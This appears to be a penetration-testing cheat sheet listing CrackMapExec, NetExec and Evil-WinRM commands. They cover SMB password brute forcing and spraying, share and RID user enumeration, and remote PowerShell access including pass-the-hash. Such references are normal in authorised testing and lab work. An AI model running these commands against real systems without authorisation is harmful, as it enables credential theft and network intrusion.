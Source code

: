 - Authenticate with username/password:

```
crackmapexec smb IP -u USER -p PASSWORD
```

- Brute force users and passwords:

```
crackmapexec smb IP -u users.txt -p passwords.txt
```

> Note: CME is no longer maintained, consider alternatives.


## NXC

- Find shared folders accessible to everyone:

```
nxc smb --shares -u 'afsd' -p '' -t 1 IP
```

- Enumerate users by RID brute force starting at 20000:

```
nxc smb -u 'asdf' -p '' --rid-brute 20000 IP
```

- Bruteforce attack with a user list and a single password:

```
nxc smb IP -u users.txt -p PASSWD
```

- Bruteforce attack with user and password lists, 4 threads, continue on success, and enumerate users:

```
nxc smb -u users.txt -p passwd.txt -t 4 IP --users --continue-on-success
```

## Evil-WinRM

<div style="display: flex; justify-content: center;">
  <img src="https://raw.githubusercontent.com/Hackplayers/evil-winrm/master/resources/evil-winrm_logo.png" alt="Mi foto" width=65% style="border-radius: 10px; box-shadow: 0 0 10px rgba(0,0,0,0.3); margin-bottom: 50px;"/>
</div>

Remote PowerShell shell over WinRM.

- Connect with user/password:

```
evil-winrm -i IP -u USER -p PASSWORD
```

- Pass-the-Hash authentication:

```
evil-winrm -i IP -u USER -H NTLM_HASH
```
